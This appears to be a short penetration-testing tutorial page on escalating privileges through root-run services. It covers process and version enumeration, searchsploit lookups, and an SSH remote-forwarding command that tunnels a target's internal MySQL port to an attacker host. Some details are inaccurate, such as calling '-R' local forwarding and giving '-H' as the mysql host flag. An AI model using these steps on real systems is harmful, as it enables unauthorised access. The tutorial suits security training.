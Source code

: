 ```yaml
---
description: Exploiting vulnerable services
---
```


# Using Service Exploits

Services are programs which run in the background, accepting inputs or doing regular tasks. If vulnerable services are running as root, we can exploit them to get command execution as root.

## Find services running as root

```bash
ps aux | grep "^root"
```

with any results identify the version n umber of the program being executed.

## Find versions with dpkg

```bash
dpkg -l | grep <package_name> 
```

## Find versions with rpm

```bash
rpm -qa | grep <package_name>
```

## Find service ports

```bash
netstat -nl
```

## Finding service exploits

### searchsploit

```
searchsploit <package_name_and_version>
```

Google and web search

## Local port forwarding

Certain root processes can be bound to a local/internal port through which it communicates. When an exploit for that particular service cannot be executed on the target machine, local port forwarding can be a go to method.

To identify services running local ports we can use the `netstat` command and looking for address `127.0.0.1`.

Using ssh a service running on a target machine's internal port can be forwarded to the attacker machine.

```
ssh -R <local-port>:127.0.0.1:<service-port> username@attackermachine
```

The exploit code for that service can be run on the local machine of the attacker at whichever port is chosen.&#x20;

Eg: Let's say there is a mysql service running on port `127.0.0.1:3306` of the target at `10.10.10.1`. We are attacking from `10.10.10.2`. We want to bind the service to our port `9999`. On the target machine we execute:

```
ssh -R 9999:127.0.0.1:3306 attacker@10.10.10.2
```

Now on attacker machine we can bind to the mysql service running on the target using:

```
mysql -u <username-on-target-machine/root> -H 10.10.10.1 -P 9999
```

Our traffic gets routed through the SSH connection to the target's mysql service.
